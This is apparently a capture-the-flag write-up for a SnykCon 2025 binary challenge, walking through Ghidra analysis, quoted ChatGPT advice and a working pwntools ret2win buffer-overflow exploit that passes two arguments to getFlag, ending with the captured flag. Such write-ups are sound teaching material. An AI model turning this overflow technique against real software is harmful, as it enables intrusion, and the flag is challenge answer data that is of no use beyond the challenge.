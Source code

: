 # Additional Information Needed
![image](https://github.com/user-attachments/assets/02a5055c-9d35-4f7f-b0ac-4f50e3dc234a)

Attachment: [challenge.elf](https://github.com/LazyTitan33/CTF-Writeups/raw/refs/heads/main/SnykCon2025/attachments/challenge.elf)

## Writeup

Trying to first run the binary without any modifications, to see what it does, I can see that it just tells me to make a call to the getFlag() function.  

![image](https://github.com/user-attachments/assets/8ff6a1c4-faea-45bb-986a-4b5b1e16cc98)

I throw the binary in Ghidra and see the buffer of 32 bytes in the Main function:  

![image](https://github.com/user-attachments/assets/a3b3e81c-99b9-4933-9ba6-f909eda7f816)

I can see the getFlag function simply reading the flag.txt:  

![image](https://github.com/user-attachments/assets/c907094c-8d04-4c05-b7a2-ef763fb6771c)

At first I tried a regular ret2win attack but it didn't work. I was moving fast so I consulted with chatGPT who had this to say:

```text
You're correctly overwriting the return address to call getFlag(), but the function requires two arguments, and you're not
controlling them in your exploit. Since getFlag() checks if param_1 * param_2 == 0x23 (35 in decimal), you need to control the
stack to provide appropriate values for these parameters.

Steps to Fix the Exploit:
	1. Control the arguments:
In 32-bit x86, function arguments are passed on the stack, right after the return address. So after overwriting the return
address with getFlag's address, you must push two values (param_1 and param_2) that satisfy param_1 * param_2 == 35.
	2. Choose valid parameters:
You need two integers that multiply to 35. Some possibilities:
		○ (5, 7)
		○ (7, 5)
		○ (1, 35)
		○ (35, 1)
	3. Modify your exploit:
You need to add these arguments after overwriting the return address.
```

And so I adjusted the exploit code and got this working:  

```python
from pwn import *

# Define the target binary
binary = './challenge.elf'
elf = ELF(binary)

# Connect to the remote challenge
prog = remote('challenge.ctf.games', 32258)

# Construct the payload
payload = b'A' * 40  # Overflow buffer
payload += p32(elf.symbols['getFlag'])  # Overwrite return address with getFlag
payload += p32(0x0)  # Fake return address (not necessary but aligns stack)
payload += p32(5)  # First argument (param_1)
payload += p32(7)  # Second argument (param_2)

# Send payload
prog.recvline()
prog.recvline()
prog.sendline(payload)
prog.interactive()
```

![image](https://github.com/user-attachments/assets/e4929eb3-71f4-4027-8e73-680e50ff77a0)

flag{8e9e2e4ec228db4207791e0a534716c3}

